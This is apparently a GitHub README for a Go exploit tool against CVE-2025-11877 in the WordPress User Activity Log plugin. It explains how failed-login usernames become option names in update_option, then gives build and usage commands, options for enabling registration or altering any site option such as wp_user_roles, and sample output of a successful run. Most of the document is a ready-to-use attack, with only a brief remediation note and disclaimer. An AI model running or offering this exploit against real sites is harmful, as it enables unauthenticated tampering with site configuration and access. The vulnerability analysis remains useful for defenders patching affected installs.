

# CVE-2025-11877

## User Activity Log - Unauthenticated Limited Options Update

**Author:** MoritakaAz

---

## Vulnerability Information

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-11877 |
| **Plugin** | User Activity Log |
| **Affected Versions** | ≤ 2.2 |
| **Vulnerability Type** | Unauthenticated Limited Options Update |
| **Severity** | High |

## Description

The User Activity Log plugin is vulnerable to a limited options update in versions up to, and including, 2.2. The failed-login handler `ual_shook_wp_login_failed` lacks a capability check and writes failed usernames directly into `update_option()` calls.

This makes it possible for **unauthenticated attackers** to push select site options from `0` to a non-zero value, allowing them to:
- **Reopen user registration** (`users_can_register`)
- **Corrupt options** like `wp_user_roles`, breaking wp-admin access

## Root Cause Analysis

The vulnerable code is located in `user-functions.php`:

```php
// Line 1006-1011 - Vulnerable code path
$nonexistingusername  = update_option( 'nonexisting_user_name', $user );
$nonexistingusercount = update_option( $user, $nonexistingusercount + 1 );
// or
$nonexistingusername  = update_option( 'nonexisting_user_name', $user );
$nonexistingusercount = update_option( $user, 1 );
```

> ⚠️ **WARNING**: The username is used directly as an option name in `update_option($user, ...)` without any sanitization or capability check!

## Exploitation Flow



## Prerequisites

For the exploit to work, the target must have these plugin settings enabled:

1. **Keep Failed Login Logs** = `Keep` (yes)
2. **Number of failed login for non existing user** > `0`

## Build

```bash
go build -o CVE-2025-11877.exe main.go
```

## Usage

### Enable User Registration
```bash
.\CVE-2025-11877.exe -u http://target.com --enable-registration
```

### Modify Custom Option
```bash
.\CVE-2025-11877.exe -u http://target.com -o option_name -a 3
```

### Check Plugin Only
```bash
.\CVE-2025-11877.exe -u http://target.com --check-only
```

## Options

| Argument | Description |
|----------|-------------|
| `-u` | Target WordPress URL (required) |
| `-o` | WordPress option name to modify (default: `users_can_register`) |
| `-a` | Number of failed login attempts (option value = attempts count) |
| `--enable-registration` | Quick exploit: Enable user registration |
| `--check-only` | Only check if plugin is active, do not exploit |
| `--timeout` | Request timeout in seconds (default: 30) |

## Verification Results

### Before Exploit
```
| option_name          | option_value |
|----------------------|--------------|
| users_can_register   | 0            |
```
- Registration page shows: "User registration is currently not allowed"

### After Exploit
```
| option_name              | option_value        |
|--------------------------|---------------------|
| users_can_register       | 1                   |
| nonexisting_user_name    | users_can_register  |
```
- Registration form is now visible at `/wp-login.php?action=register`
- "Anyone can register" checkbox is checked in WordPress Settings

## Example Output

```
>> [ ONLINE ]
    ╔═══════════════════════════════════════════════════════════════════════════════════════╗
    ║   CVE-2025-11877 - User Activity Log Options Update                                   ║
    ║   Affected: User Activity Log <= 2.2                                                  ║
    ║   Author: MoritakaAz                                                                  ║
    ╚═══════════════════════════════════════════════════════════════════════════════════════╝

>> [ INFORMATION ]

[*] Checking if User Activity Log plugin is active...
[+] Plugin detected: /wp-content/plugins/user-activity-log/readme.txt
[+] Plugin detected!

============================================================
[*] EXPLOIT: Enable User Registration
============================================================

[*] Target: http://target.com
[*] Option to modify: users_can_register
[*] Sending 1 failed login attempt(s)...

[*] Attempt 1/1: Sending failed login with username 'users_can_register'
[+] Login failure triggered successfully

[*] Completed 1/1 attempts

[+] Exploitation likely successful!
[+] Option 'users_can_register' should now be set to: 1

[+] User registration should now be ENABLED!
[+] Check: http://target.com/wp-login.php?action=register

[*] Done.
```

## Remediation

> ⚠️ **IMPORTANT**: Update User Activity Log plugin to a patched version when available, or disable the "Keep Failed Login Logs" feature as a temporary mitigation.

## References

- [Plugin Source Code](https://plugins.trac.wordpress.org/browser/user-activity-log/trunk/user-functions.php)
- [WordPress Plugin Directory](https://wordpress.org/plugins/user-activity-log/)

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. Use responsibly.

## Author

**MoritakaAz**
